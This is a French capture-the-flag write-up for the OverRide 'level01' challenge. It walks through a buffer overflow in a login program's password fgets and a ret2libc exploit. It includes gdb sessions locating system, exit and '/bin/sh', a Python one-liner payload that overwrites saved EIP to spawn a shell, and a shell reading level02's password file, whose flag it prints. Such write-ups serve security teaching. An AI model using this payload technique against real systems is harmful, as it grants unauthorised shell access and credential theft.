

# Level 01

### Protections



### Analyse

Le programme recoit 2 entrees en `stdin` grace a `fgets()`.

* La premiere est un **username** stocke dans un buffer de 256 octets dont l'adresse est plutot eloignee par rapport au reste du programme, dans la section `.bss`.
* La deuxieme entree est un **password** stocke dans un buffer de 64 octets. Cependant, le `fgets()` lit 100 octets, Buffer Overflow possible a cet endroit.

Le programme utilise ses fonctions `verify_user_name` et `verify_user_pass`, completement inutiles, on remarque que les bons identifiants sont `dat_wil` et `admin` mais cela n'a aucun impact sur le comportement du programme si ce n'est quitter le programme en cas de mauvais username.

On va donc entrer le bon username `dat_wil` puis se concentrer sur le potentiel Overflow dans le second `fgets()`.

### Exploitation

On commence par utiliser un Overflow Pattern Generator ([https://wiremask.eu/tools/buffer-overflow-pattern-generator/](https://)) pour detecter voir si un overflow sur le Saved-eip est possible et detecter son Offset.

```level01@OverRide:~$ gdb ./level01
level01@OverRide:~$ gdb ./level01
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

Un pattern cyclique de 100 octets nous revele un segfault a `0x37634136` soit "7cA6".

Le Little-endian s'applique ici -> 6Ac7. La position de cette suite dans notre pattern est 80. Donc une modification du saved-eip est possible a partir de 80 octets.

##### Elaboration de la Strategie

On sait donc que l'on peut modifier le comportement du programme et modifier la prochaine instruction qui suit le `main()` definie par le saved-eip.

On va donc s'interesser aux attaques de type **Ret2Libc**.

Plutot que d'injecter un Shellcode et une adresse qui pointe vers celui-ci, nous allons appeler des fonctions de bibliotheques partagees deja presentes en memoires.

On va donc appeler `system`, `"/bin/sh"` et `exit`. Pour cela rien complique, il nous suffit de localiser ces elements dans la memoire puis de les injecter dans l'ordre a notre offset.

##### Execution

Pour trouver `system()` et `exit()` on va simplement utiliser **gdb** comme ceci.

```exec
(gdb) b *main+5
Breakpoint 2 at 0x80484d5
(gdb) r
Breakpoint 1, 0x080484d5 in main ()
(gdb) disas system
Dump of assembler code for function system:
0xf7e6aed0 <+0>:     sub    $0x1c,%esp
......................................
End of assembler dump.
(gdb) disas exit
Dump of assembler code for function exit:
0xf7e5eb70 <+0>:     push   %ebx
......................................
End of assembler dump.
```

Il nous suffit de prendre les l'adresses de la premiere instruction de chaque fonction.

`system()`: 0xf7e6aed0

`exit()`: 0xf7e5eb70

Pour trouver la string "/bin/sh", on localise d'abord l'adresse de depart de la `libc`:

```map
(gdb) info proc mappings
process 1770
Mapped address spaces:
Start Addr   End Addr       Size     Offset objfile
.......... ..........   ........   ........ ...................
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
.......... ..........   ........   ........ ...................
```

La `libc` debute a l'adresse `0xf7e2c000`. On va donc pouvoir utiliser `find` et trouver "/bin/sh".

```m
(gdb) find 0xf7e2c000, +10000000, "/bin/sh"
0xf7f897ec
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
```

Une fois ces 3 elements reunis, on n'a plus qu'a les injecter dans le bon ordre, le saved-eip sera ecrase et notre injection sera executee.

`(python -c 'print "dat_wil"'; python -c 'print "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level01`

```m
********* ADMIN LOGIN PROMPT *********
Enter Username: 
verifying username....
Enter Password:
nope, incorrect password...
whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

Notre flag est donc: **PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv**
